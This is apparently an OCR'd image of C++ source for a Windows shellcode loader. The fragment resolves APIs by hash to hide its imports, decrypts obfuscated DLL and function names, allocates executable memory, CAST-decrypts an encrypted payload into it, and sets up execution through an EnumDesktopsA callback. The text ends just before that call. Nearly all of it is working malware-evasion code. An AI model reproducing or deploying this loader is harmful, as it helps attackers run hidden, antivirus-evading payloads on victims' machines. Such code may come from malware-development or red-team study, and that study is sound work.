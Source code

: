 ```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + 
  img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
    //   printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // decrypt function string
  d((char*)cva, sizeof(cva), secretKey, sizeof(secretKey));
  // allocate memory buffer for payload
  d((char*)kdll, sizeof(kdll), secretKey, sizeof(secretKey));

  wchar_t wtext[20];
  mbstowcs(wtext, kdll, strlen(kdll)+1); //plus null
  LPWSTR k_dll = wtext;

//   HMODULE kernel = GetModuleHandle((LPCSTR)kdll);
  HMODULE kernel = myGM(k_dll);
//   pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress
// (kernel, (LPCSTR)cva);
  pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))myGPA(kernel, 
  (LPCSTR)cva);

  // allocate a single block for execution
  mem_block = pva(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  d((char*)udll, sizeof(udll), secretKey, sizeof(secretKey));
  HMODULE mod = LoadLibrary((LPCSTR)udll);
  LPVOID addr = getAPIAddr(mod, 121801766);
//   printf("0x%p\n", addr);
  EnumDesktopsA_t myEnumDesktopsA = (EnumDesktopsA_t)addr;

  // execute the shellcode using EnumDesktopsA
```